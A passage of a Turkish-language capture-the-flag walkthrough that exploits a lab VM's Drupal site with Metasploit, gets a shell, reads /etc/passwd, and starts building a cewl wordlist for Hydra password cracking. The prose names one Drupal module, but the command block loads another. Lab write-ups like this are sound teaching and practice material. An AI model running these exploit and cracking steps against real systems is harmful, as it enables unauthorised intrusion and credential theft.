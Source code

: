 `exploit/unix/webapp/drupal_coder_exec          2016-07-13       excellent  Yes    Drupal CODER Module Remote Command Execution` isimli exploiti kullanarak sisteme girebiliriz.

`use` komutu ile exploiti seçelim. Ardından `set` komutu ile `RHOST` ve `RPORT` parameterlerine gerekli değerleri atayalım. Burada IP adresi sizde farıklı olabilir. Sizdeki IP adresini girmelisiniz. Ardından `exploit` diyerek exploiti çalıştırabiliriz.

```text
use exploit/unix/webapp/drupal_drupalgeddon2
show options
set RHOST 172.16.0.177
set RPORT 1898
exploit
```

Ardından `meterpreter` açılacak. Yardım için `help` komutunu girebilirsiniz. Ben `shell` komutu ile shell aldım. Biraz dizinlerde dolaştıktan bazı dosyaları inceledikten sonra `/etc/passwd` dosyasına baktım. Çıktı şu şekilde olacak:

```text
cat /etc/passwd
tiago:x:1000:1000:tiago,,,:/home/tiago:/bin/bash
sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
mysql:x:102:106:MySQL Server,,,:/nonexistent
```

Dosyayı incelediğimizde `tiago` kullanıcısını görüyoruz. uid si ise 1000. Bu kullanıcı ile ssh üzerinden sisteme giriş yapabiliriz. Peki ya parolası???

## Cewl ve Hytra Kullancı Parolası Kırma

Onlarca başarısız deneme ve bolca uğraşdan sonra sonunda cevabı buldum. `cewl` aracı. Bu araç web sayfası üzerinden wordlist oluşturmaya yarıyor. O zaman `cewl` ile worlist oluşturalım :)
